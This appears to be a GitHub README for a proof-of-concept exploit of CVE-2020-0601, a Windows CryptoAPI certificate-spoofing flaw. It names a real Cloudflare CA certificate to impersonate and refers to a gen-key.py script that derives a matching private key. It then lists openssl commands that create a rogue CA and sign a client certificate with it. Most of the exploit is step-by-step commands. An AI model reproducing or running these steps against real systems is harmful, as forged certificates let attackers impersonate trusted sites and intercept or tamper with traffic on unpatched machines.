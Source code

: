 # CryptoAPI

CVE-2020-0601: Windows CryptoAPI Spoofing Vulnerability exploitation

# CA certificate

We used the [CloudFlare Inc ECC CA-2](https://ssl-tools.net/subjects/2b0413693df1d33d7e89cba055cf204f9c158c9d)

An example of usage of this certificate is :
```bash
openssl s_client -connect tonerrefillkits.com:443 -showcerts
```

To generate a private key which match the public key certificate we used the script **gen-key.py**. Then to generate the rogue CA:

```bash
$ openssl x509 -signkey p256-key-rogue.pem -in rogue.csr -req -days 365 -out CA-rogue.crt
```

The we generate the following private key and certificate:
```bash
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem

openssl req -key prime256v1-privkey.pem -new -out prime256v1.csr

openssl x509 -req -in prime256v1.csr -CA CA-rogue.crt -CAkey p256-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -sha256
```